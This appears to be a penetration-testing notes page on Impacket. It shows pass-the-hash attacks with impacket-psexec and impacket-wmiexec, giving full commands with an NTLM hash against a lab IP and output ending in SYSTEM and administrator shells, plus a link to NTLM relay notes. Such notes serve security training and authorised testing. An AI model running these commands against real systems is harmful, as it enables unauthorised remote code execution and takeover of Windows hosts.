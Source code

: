```yaml
---
layout:
  title:
    visible: true
  description:
    visible: false
  tableOfContents:
    visible: true
  outline:
    visible: true
  pagination:
    visible: true
---
```


# Impacket

## Pass-the-Hash

> _NetExec also used `impacket-psexec` to perform the_ [_PtH attack_](netexec-cme.md#rce)_._

`impacket-psexec` searches for a writable share and uploads an executable file to it. Then it registers the executable as a Windows service and starts it which results in RCE. It requires two arguments:

1. `hashes`: allows us to use NTLM hashes to authenticate to the target. The format is `LMHash:NTHash`, in which we specify the `Administrator`'s NTLM hash after the colon (the `LMHash` part can be left empty).
2. `username@IP`: the target definition.

> _At the end of the command we could specify another argument, which is used to determine which command psexec should execute on the target system. If we leave it empty, `cmd.exe` will be executed, providing us with an interactive shell as `SYSTEM`. We can also use one of the other impacket scripts like `wmiexec.py` to obtain a shell as the user we used for authentication._

{% tabs %}
{% tab title="SYSTEM Shell" %}
{% code overflow="wrap" %}
```bash
# SYSTEM shell
$ impacket-psexec -hashes :7a38310ea6f0027ee955abed1762964b Administrator@192.168.233.212
Impacket v0.12.0 - Copyright Fortra, LLC and its affiliated companies

[*] Requesting shares on 192.168.233.212.....
[*] Found writable share ADMIN$
[*] Uploading file WIKgrLbX.exe
[*] Opening SVCManager on 192.168.233.212.....
[*] Creating service iVBP on 192.168.233.212.....
[*] Starting service iVBP.....
[!] Press help for extra shell commands
Microsoft Windows [Version 10.0.20348.707]
(c) Microsoft Corporation. All rights reserved.

C:\Windows\system32> whoami
nt authority\system
```
{% endcode %}
{% endtab %}

{% tab title="Administrator Shell" %}
{% code overflow="wrap" %}
```bash
# Administrator shell
$ impacket-wmiexec -hashes :7a38310ea6f0027ee955abed1762964b Administrator@192.168.233.212
Impacket v0.12.0 - Copyright Fortra, LLC and its affiliated companies

[*] SMBv3.0 dialect used
[!] Launching semi-interactive shell - Careful what you execute
[!] Press help for extra shell commands
C:\>whoami
files02\administrator
```
{% endcode %}
{% endtab %}
{% endtabs %}

## NTMLv2 Relay

For an example on how to use the `impacket-ntlmrelayx` script see [here](../../tl-dr/active-directory/attacks/ntlmv2.md#ntmlv2-relay).
